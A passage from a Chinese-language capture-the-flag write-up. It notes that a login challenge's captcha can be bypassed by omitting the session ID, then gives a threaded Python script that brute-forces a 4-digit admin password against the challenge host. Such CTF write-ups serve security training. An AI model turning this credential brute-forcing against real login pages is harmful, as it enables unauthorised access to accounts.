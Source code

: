 但是后来测试发现我不用验证码（不传 `phpsessid` ） 也可以。于是脚本：

```
import time
import requests
import threading

def get_time():
	return str(int(time.time()))[-5:]

u = "http://123.206.31.85:10023/admin/login.php"

def a(i):
	data  ={
	"username":"admin",
	"password":("{}".format(i)).rjust(4,"0"),
	"verifycode":"",
	"submit":"",
	}
	
	r = requests.post(u,data=data)
	if r.text.find("用户名或密码错误") > 0:
		return
	print(r.text)

for i in range(1000):
	threading.Thread(target =a,args=(i,)).start()
```

别问为什么爆破 `4` 位的，233。

  [1]: http://123.206.31.85:1616/
  [2]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/55f3fbe84093708c801a8277f80f499f.png
  [3]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/c56417574071e1588000433b4c8ec779.png
  [4]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/6f506efb40b311c980c5bddf95af3c5b.png
  [5]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/c7bb7bd24077aea3805379df9db129a4.png
  [6]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/60d667c940e25f3480d175f34ac54a0e.png
  [7]: http://tool.oschina.net/codeformat/js/
  [8]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/b8a7bb1840c199cd805559963e125d2f.png
  [9]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/0932a7d640182a3c808d62e7e9becd7d.png
  [10]: http://123.206.31.85:10024
  [11]: http://123.206.31.85:10012/
  [12]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/64ddb3bb40e2147680545170ed0c1662.png
  [13]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/6a2f450d407be58480eec39bc255f96a.png
  [14]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/f24f342d40cd4ae080996661d19e2cc5.png
  [15]: http://123.206.31.85:10023/
  [16]: http://bmob-cdn-22342.b0.upaiyun.com/2019/05/11/77d4b07840a8eba68078b6d12b681725.png
